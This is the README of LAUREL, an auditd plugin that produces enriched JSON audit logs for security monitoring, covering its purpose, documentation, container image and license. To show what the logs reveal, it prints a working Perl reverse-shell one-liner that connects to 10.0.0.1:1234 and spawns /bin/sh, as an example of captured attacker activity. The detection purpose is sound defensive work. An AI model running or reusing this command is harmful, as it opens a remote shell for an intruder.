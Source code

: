 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.5.1).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. 

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LARUEL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## Container Image

From v0.5.2 on laurel is able to listen on an socket for forwarded auditd messages and can be executed in a container this way. A basic container image is published in this repository to `ghcr.io/threathunters-io/laurel` with tags latest and the respective version tag.

The provided container image build includes default labels via docker buildx from the pipeline. These labels are not included in the provided Dockerfile but are considered good practice. If you use a custom build with another tooling, consider adding the default labels to the Dockerfile.

The container image currently contains the default configuration, which does not include the socket connection and other container specifics. Please replace this configuration with the configuration of your choice, it is meant as a placeholder.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
